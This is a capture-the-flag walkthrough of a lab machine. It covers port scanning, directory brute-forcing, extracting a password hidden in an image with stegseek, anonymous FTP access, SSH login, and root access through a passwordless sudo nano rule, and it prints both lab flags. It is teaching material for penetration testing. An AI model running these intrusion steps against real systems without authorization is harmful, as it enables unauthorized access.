 ``ip:`` 10.10.210.113

## Enumeration
#### Nmap
```r
nmap -sV -sC 10.10.210.113 -p- --open
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-29 22:03 EST
Nmap scan report for 10.10.210.113
Host is up (0.12s latency).
Not shown: 64850 closed tcp ports (reset), 682 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.198.175
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results 
```
``Found:``
- A vulnerable FTP server that accepts ``"Anonymous"`` login
- SSH server running on port 22
- Vulnerable HTTP Server running port 80

Let us visit the webpage on port 80

### Website enumeration:
Nothing much to see on the "Homepage", just the movie picture and something about the picture scaling to the browser's screen size.
Let's check the source code:
We found something:
```r
</style>
</head>
<body>

<div class="bg"></div>

<p>This example creates a full page background image. Try to resize the browser window to see how it always will cover the full screen (when scrolled to top), and that it scales nicely on all screen sizes.</p>
<!-- Have you ever heard of steganography? -->
</body>
</html>
```
Steganography? What is that?
_Steganography is the technique of hiding data within an ordinary, nonsecret file or message to avoid detection; the hidden data is then extracted at its destination. Steganography use can be combined with encryption as an extra step for hiding or protecting data._
Something to think about going forth: 

#### Gobuster
Let us use an automated tool called gobuster to brute force sub domains on our target webpage
```r
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://brooklyn99.thm
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://brooklyn99.thm
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
Progress: 61222 / 87665 (69.84%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 61236 / 87665 (69.85%)
===============================================================
Finished
===============================================================
```
Nothing in Gobuster.

Let us go back to the stenography stuff. By using Gobuster we were not able to find an image sub domains but we see that the website has a picture as it's cover page.

Let us save that picture as ``brooklyn99.jpg`` and use ``stegseek`` to analyze it for hidden files and folders. You can install stegseek by using this command: ``sudo apt install stegseek``

### Stenography 
Using stegseek: 
```r
stegseek --crack -sf ~/Pictures/brooklyn99.jpg -wl /usr/share/wordlists/rockyou.txt -xf steg.txt 
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: "admin"
[i] Original filename: "note.txt".
[i] Extracting to "steg.txt".
```
We use the ``--crack ``option to brute-force for secrets and hidden files using the ``rockyou.txt`` wordlist and save the results in a text file called ``steg.txt``.

Let open steg.txt to view contents:
```r
cat steg.txt 
Holts Password:
fluffydog12@ninenine

Enjoy!!
```
``Credentials:`` ``username``: Holts and ``password``: fluffydog12@ninenine

### FTP
Remember the vulnerable ftp server. Let us go and actively enumerate it.
```r
ftp brooklyn99.thm
Connected to brooklyn99.thm.
220 (vsFTPd 3.0.3)
Name (brooklyn99.thm:root): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||36069|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
```
While enumerating the ftp server, we found a note ``"note_to_jake.txt"``. Let's download that file to our host machine and view the content.
```r
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
229 Entering Extended Passive Mode (|||62183|)
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |*********************************************************|   119        1.89 MiB/s    00:00 ETA
226 Transfer complete.
```

```r
cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
Wow, we found three user:
- Holt
- Jake
- Amy

Let us quickly login into the target machine before holts does.

### SSH
```r
ssh holt@10.10.210.113
holt@10.10.210.113's password: 
Last login: Tue May 26 08:59:00 2020 from 10.10.10.18
holt@brookly_nine_nine:~$ 

```
We are in Holt's account. ``{COMPROMISED}``

Right from his desktop we can get the user.txt flag
```r
holt@brookly_nine_nine:~$ ls -l
total 8
-rw------- 1 root root 110 May 18  2020 nano.save
-rw-rw-r-- 1 holt holt  33 May 17  2020 user.txt
holt@brookly_nine_nine:~$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```

## Privilege Escalation
I look everything including crontab, .ssh keys but nothing to show how to escalate my privileges, not unless I ran ``sudo -l``

```r
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
```
The Holt user can actually run as ``root`` with no password through ``/bin/nano``. ``{Vulnerability}``

Let us use ``GTO bins`` to find the appropriate commands to get root privileges.

Since he can use nano without restrictions, then let's open the root.txt file by using 
```r
holt@brookly_nine_nine:~$ sudo nano /root/root.txt
```

```r
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```

